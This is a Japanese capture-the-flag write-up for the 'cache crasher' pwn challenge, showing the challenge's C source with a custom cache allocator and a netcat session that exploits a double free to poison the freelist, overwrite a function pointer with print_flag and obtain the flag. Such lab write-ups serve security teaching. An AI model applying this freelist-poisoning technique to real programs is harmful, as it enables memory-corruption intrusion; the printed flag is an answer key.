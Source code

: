 # cache crasher:Pwn:100pts
tapioca rice  

[cache-crasher.c](cache-crasher.c)　[cache](cache)  

`nc 34.170.146.252 45969`  

# Solution
CソースとELFが配布される。  
ソースは以下の通りであった。  
```c
#include <stddef.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

#define MAX_ALLOC 0x10

union chunk {
  union chunk* next_chunk;
  size_t val;
};

size_t alloced = 0;
union chunk buf[MAX_ALLOC];
union chunk* cache = NULL;
union chunk* allocate() {
  size_t a = sizeof(union chunk);

  union chunk* res;
  if (cache != NULL) {
    res = cache;
    cache = res->next_chunk;
  }
  else {
    if (MAX_ALLOC <= alloced) return NULL; // buf exhausted
    res = &buf[alloced];
    alloced++;
  }

  return res;
}

void free_chunk(union chunk* ptr) {
  ptr->next_chunk = cache;
  cache = ptr;
}

void print_flag() {
  char flag[256];
  int fd = open("./flag.txt", O_RDONLY);
  if (fd < 0) { puts("./flag.txt not found"); return; }
  write(1, flag, read(fd, flag, sizeof(flag)));
}

void dump_info() { // You don't need to read this function!
  printf("Cache:\n");
  union chunk* current = cache; int limit = 5;
  while (buf <= current && current < &buf[MAX_ALLOC]) {
    printf("%p -> ", (void*)current);
    current = current->next_chunk;
    if (--limit == 0) { printf("...\n"); break; }
  }
  if (limit != 0) printf("%p\n", (void*)current);
  printf("Buffer:\n");
  for (size_t i = 0; i < alloced; i++) printf("buf[%zu]: %p (val: 0x%lx)\n", i, (void*)&buf[i], buf[i].val);
}

void (*funcptr)() = dump_info;

#define ALLOC 0
#define FREE  1
int main() {
  setbuf(stdout, NULL);
  printf("address of print_flag: %p\n", print_flag);
  printf("address of funcptr: %p\n", &funcptr);

  int i = 0;
  union chunk* s[MAX_ALLOC];

  int opcode;
  while (1) {
    printf("opcode(0: alloc, 1: free): ");
    if (scanf("%d", &opcode) == EOF) break;
    if (opcode == ALLOC) {
      size_t val;
      s[i] = allocate();
      if (s[i] == NULL) { perror("allocate failed"); exit(1); } 
      printf("data(integer): ");
      if (scanf("%zu", &val) == EOF) break;
      s[i]->val = val;
      i++;
    }
    else {
      size_t ind;
      printf("what index to free: ");
      if (scanf("%zu", &ind) == EOF) break;
      if (ind < 0 || i <= ind) { perror("invalid operand"); exit(1); }
      free_chunk(s[ind]);
    }

    printf("content of funcptr: %p\n", funcptr);
    funcptr();
  }
}
```
最初に`print_flag`のアドレスと`funcptr`のアドレスを表示し、独自のキャッシュを用いたオレオレ`alloc`と`free`を行えるようだ。  
毎回`funcptr`に保存されている`dump_info`が実行されている。  
これをどうにか`print_flag`に書き換えろとのことらしい。  
昔の__free_hookがあった時代の簡単heap問を思い出す。  
double freeで循環のチャンクを作って、`alloc`して書き換えればよいとわかる。  
一度`alloc`しなければ`i`が増えないので`free`できないことと、各種アドレスはHexではなく数値入力であることに注意する。  
以下のように行う。  
```bash
$ nc 34.170.146.252 45969
address of print_flag: 0x40222e
address of funcptr: 0x405150
opcode(0: alloc, 1: free): 0
data(integer): 999
content of funcptr: 0x4022a2
Cache:
(nil)
Buffer:
buf[0]: 0x4051a0 (val: 0x3e7)
opcode(0: alloc, 1: free): 1
what index to free: 0
content of funcptr: 0x4022a2
Cache:
0x4051a0 -> (nil)
Buffer:
buf[0]: 0x4051a0 (val: 0x0)
opcode(0: alloc, 1: free): 1
what index to free: 0
content of funcptr: 0x4022a2
Cache:
0x4051a0 -> 0x4051a0 -> 0x4051a0 -> 0x4051a0 -> 0x4051a0 -> ...
Buffer:
buf[0]: 0x4051a0 (val: 0x4051a0)
opcode(0: alloc, 1: free): 0
data(integer): 4215120
content of funcptr: 0x4022a2
Cache:
0x4051a0 -> 0x405150
Buffer:
buf[0]: 0x4051a0 (val: 0x405150)
opcode(0: alloc, 1: free): 0
data(integer): 888
content of funcptr: 0x4022a2
Cache:
0x405150
Buffer:
buf[0]: 0x4051a0 (val: 0x378)
opcode(0: alloc, 1: free): 0
data(integer): 4203054
content of funcptr: 0x40222e
Alpaca{ar1g4t0u_alloc4t0r}
opcode(0: alloc, 1: free): ^C
```
うまく`print_flag`が実行され、flagが得られた。  

## Alpaca{ar1g4t0u_alloc4t0r}